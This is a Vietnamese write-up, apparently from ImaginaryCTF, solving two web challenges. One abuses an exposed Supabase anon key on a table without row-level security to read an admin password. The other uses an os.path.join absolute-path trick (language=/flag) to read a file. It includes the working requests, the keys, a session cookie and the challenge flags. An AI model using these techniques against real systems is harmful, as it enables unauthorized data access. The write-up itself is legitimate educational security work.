 Ta sẽ đi phân tích request sử dụng api của chương trình:

```
/rest/v1/users?select=*&username=eq.long&password=eq.a
```

```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI
X-Client-Info: supabase-js-web/2.50.3
Accept-Profile: public
Apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI
```

Từ request ta có thể nhận thấy chương trình sử dụng API của PostgREST. Supabase PostgREST là một dịch vụ nằm trong Supabase, nó tự động sinh ra RESTful API từ cơ sở dữ liệu PostgreSQL. Mỗi bảng trong PostgreSQL sẽ trở thành một endpoint REST. Các cột trong bảng trở thành các trường JSON trong API. Các toán tử như eq., lt., like.… tương ứng với filter trong SQL. Ví dụ bảng `users` trong PostgreSQL tương đương với API /rest/v1/users. Truy vấn GET /rest/v1/users?username=eq.long tương ứng với SQL

```sql
SELECT * FROM users WHERE username = 'long';
```

Ta quay lại phần mô tả của bài toán:

_I made a new note taking app using Supabase! Its so secure, I put my flag as the password to the "admin" account. I even put my anonymous key somewhere in the site. The password database is called, "users"._

Như vậy, ta chỉ cần thực hiện request với param `/rest/v1/users?select=*&username=eq.admin` thì chương trình sẽ trả về

```json
{"id":"5df6d541-c05e-4630-a862-8c23ec2b5fa9","username":"admin","password":"ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}"}
```

Supabase cung cấp hai loại key chính: key công khai (publishable / anon) dùng cho frontend và key có quyền cao (service_role / secret) dùng cho backend. 

Key công khai được thiết kế để “an toàn để hiển thị” khi và chỉ khi bảng/ứng dụng được bảo vệ bằng RLS (và policy đúng). Nếu một bảng trong schema public không bật RLS thì bảng đó có thể bị truy vấn công khai bởi role anon; nghĩa là bất kỳ ai có anon key (hoặc giả mạo request phù hợp) có thể đọc dữ liệu trên bảng đó.

tác giả challenge embed một key (ở đây là anon key) vào client và database bảng users không có RLS (hoặc policy không chặn truy cập cột password). Kết quả là chỉ cần gửi request tới endpoint PostgREST (/rest/v1/users?select=*&username=eq.admin) kèm header Authorization/Apikey tương ứng, API trả trực tiếp toàn bộ hàng bao gồm cột password.

### codenames-1

Chương trình là một dịch vụ web đơn giản sử dụng Flask và Socket io. Tại route `/create_game`, chương trình áp dụng logic lấy các ngôn ngữ trong thư mục `words/` với logic như sau:

```python
language = request.form.get('language', None)
if not language or '.' in language:
    language = LANGUAGES[0] if LANGUAGES else None
word_list = []
if language:
    wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
    try:
        with open(wl_path) as wf:
            word_list = [line.strip() for line in wf if line.strip()]
```

Ở đây thực hiện kiểm tra đơn giản xem có kí tự `.` ở trong language hay không rồi nối với WORD_DIR bằng `os.path.join` có quy tắc: nếu một thành phần tiếp theo là đường dẫn tuyệt đối (bắt đầu bằng / trên Unix), thì các thành phần trước sẽ bị bỏ và kết quả là đường dẫn tuyệt đối đó. Ví dụ:

```python
import os
a = os.path.join("challenge/words", "en.txt")
print(a) # challenge/words/en.txt
b = os.path.join("challenge/words", "/en.txt")
print(b) # /en.txt
```

Như vậy để đọc /flag.txt trên hệ thống, ta chỉ cần lợi dụng logic thêm đuôi .txt vào sau giá trị language để đọc flag

```
POST /create_game HTTP/1.1
Host: codenames-1.chal.imaginaryctf.org
Content-Length: 14
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJpc19ib3QiOmZhbHNlLCJ1c2VybmFtZSI6Im5nbG9uZzA1In0.aL4qPw.If2AlYlkf4X9FhyIbi2UE-jjOWM

language=/flag
```

```
ictf{common_os_path_join_L_xxxxxxx}
```

### passwordless



